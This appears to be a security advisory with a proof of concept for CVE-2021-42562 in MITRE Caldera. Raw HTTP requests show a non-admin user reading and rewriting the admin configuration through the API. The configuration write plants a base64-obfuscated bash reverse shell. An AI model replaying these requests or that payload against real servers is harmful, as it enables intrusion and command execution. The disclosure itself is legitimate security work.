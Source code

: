 # CVE-2021-42562: Improper Access Control in MITRE Caldera

Caldera (versions <=2.8.1) does not properly segregate user privileges, resulting in non-admin users having access to read and modify configuration or other components which should only be accessible by admin users.
<br/>

### Software:

The MITRE Caldera software can be found [here](https://github.com/mitre/caldera).

### Requirements:

This vulnerability requires:
<br/>
- Valid user credentials

### Proof Of Concept:

For this scenario we will login as the non-admin user "blue". As can be seen in the image below, blue does not have access to the "Configuration" tab, but by using direct API requests, we are still able to read and modify the configurations.

<img src="Images/blue.png"/>

Login Request:
```
POST /enter HTTP/1.1
Host: 192.168.243.180:8888
Content-Type: application/x-www-form-urlencoded
Content-Length: 66

username=blue&password=po***TRUNCATED***5Y
```

Login Response:
```
HTTP/1.1 302 Found
Content-Type: text/plain; charset=utf-8
Location: /
Content-Length: 10
Set-Cookie: API_SESSION="gAAAAABfk0kpIYcoemLUYUktkN886YjTcnC2BIAVrwSOPBuEpIxsFCaBPXLFw0UqlmoiC_2BkrGfBNAgojCLDd_JB7qmq49lOHf_3OemdECrQvsT2draejz9AiGAua1iZMz96iITQoniNpfmh7hDQkoI2omNN3QYiwa3cM9BbP1BLB6tqsfRG4M="; HttpOnly; Path=/
Date: Fri, 23 Oct 2020 21:20:41 GMT
Server: Python/3.6 aiohttp/3.6.2
Connection: close

302: Found
```

Config request via API using blue's session cookie:
```
POST /api/rest HTTP/1.1
Host: 192.168.243.180:8888
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 313
Origin: http://192.168.243.180:8888
Connection: close
Referer: http://192.168.243.180:8888/
Cookie: API_SESSION="gAAAAABfk0kpIYcoemLUYUktkN886YjTcnC2BIAVrwSOPBuEpIxsFCaBPXLFw0UqlmoiC_2BkrGfBNAgojCLDd_JB7qmq49lOHf_3OemdECrQvsT2draejz9AiGAua1iZMz96iITQoniNpfmh7hDQkoI2omNN3QYiwa3cM9BbP1BLB6tqsfRG4M="

{"index":"configuration","prop":"requirements","value":{"go": {"command": "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}", "type": "installed_program", "version": "I'm blue"}, "python": {"attr": "version", "module": "sys", "type": "python_module", "version": "3.6.1"}}}
```

Response:
```
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Content-Length: 1103
Date: Fri, 23 Oct 2020 21:22:31 GMT
Server: Python/3.6 aiohttp/3.6.2
Connection: close

{"ability_refresh": 60, "api_key_blue": "aH***TRUNCATED***TU", "api_key_red": "Qv***TRUNCATED***M4", "app.contact.gist": "API_KEY", "app.contact.http": "http://0.0.0.0:8888", "app.contact.tcp": "0.0.0.0:7010", "app.contact.udp": "0.0.0.0:7011", "app.contact.websocket": "0.0.0.0:7012", "crypt_salt": "yz***TRUNCATED***Hw", "encryption_key": "0C***TRUNCATED***lw", "exfil_dir": "/tmp", "host": "0.0.0.0", "plugins": ["access", "atomic", "compass", "debrief", "fieldmanual", "gameboard", "manx", "response", "sandcat", "stockpile", "training", "/tmp/hexor"], "port": 8888, "reports_dir": "/tmp", "requirements": {"go": {"command": "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}", "type": "installed_program", "version": "I'm blue"}, "python": {"attr": "version", "module": "sys", "type": "python_module", "version": "3.6.1"}}, "users": {"blue": {"blue": "po***TRUNCATED***5Y"}, "red": {"red": "mS***TRUNCATED***mM"}}}
```

<strong>Note:</strong> As it can be seen in the above request, this vulnerability allows a non-admin user to leverage [CVE-2021-42559: Command Injection Via Configurations](../CVE-2021-42559-Command%20Injection%20Via%20Configurations-MITRE%20Caldera).

